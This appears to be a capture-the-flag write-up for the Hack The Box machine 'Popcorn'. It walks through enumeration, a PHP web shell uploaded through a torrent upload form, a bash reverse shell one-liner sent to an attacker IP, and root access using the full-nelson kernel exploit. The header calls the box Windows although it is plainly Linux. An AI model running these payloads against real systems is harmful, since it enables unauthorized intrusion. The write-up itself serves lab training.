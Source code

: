 # Popcorn - Machine

10.10.10.6 Windows Medium

## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools
- Nmap
- gobuster / dirb / dirbuster
- Burp Suite Community Edition / OWASP ZAP
- NetCat
- linux-exploit-suggester.sh /SearchExploit (OFFSEC exploitDB) / Google

## Enumeration

- Nmap with `nmap -A 10.10.10.6` gives two open ports, port 22 for ssh and 80 for http.
- On port 80 running gobuster with `gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40` gives some links as output. Output shows some links, `/test`, `/index`, `/torrent` etc.
- `/test` page shows `phpinfo` allowed file upload.
- On `/torrent` page we can see sign up and log in option. 


## Exploitation

- After loggin in we can use the upload option. During uploading torrent file, we can modify filename and filecontent to php shell code with burp suite or OWASP ZAP.
- We can goto `/torrent/upload` directory to get our file and simple `curl http://10.10.10.6/torrent/upload/3like1share3folllow3subscribe7.php?test=whoami` will execute command on the server.
- Running netcat client on host with `nc -lvnp 1337` and command `curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "test=bash -c 'bash -i >& /dev/tcp/10.10.14.100/1337 0>&1'"` will give us shell as user `www-data`.
- Now we can simply get `user.txt` as `www-data` for user `george` with command `cat /home/george/user.txt`.
  ```bash
  www-data@popcorn: ls /home
  george
  www-data@popcorn: cat /home/george/user.txt
  userflaglikesharesubscribefollow
  ```

## Priviledge Escalation

- After importing linux-exploit-suggester.sh we can get a lot of priviledge escalation exploits.
- One of them is full-nelson (http://vulnfactory.org/exploits/full-nelson.c). After importing it to the machine, we can compile it with `gcc full-nelson.c -o full-nelson`.
- Then We get root and root flag.
  ```bash
  www-data@popcorn:tmp$ gcc full-nelson.c - exploit
  gcc full-nelson.c - exploit
  www-data@popcorn:tmp$ chmod +x exploit
  chmod +x exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  ./exploit
  id
  uid=0(root) gid=0(root)
  cat /root/root.txt
  rootflaglikesharesubscribefollow
  ```
- Also dirtycow, motd and many other exploits are possible. As the server kernel version is too old.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
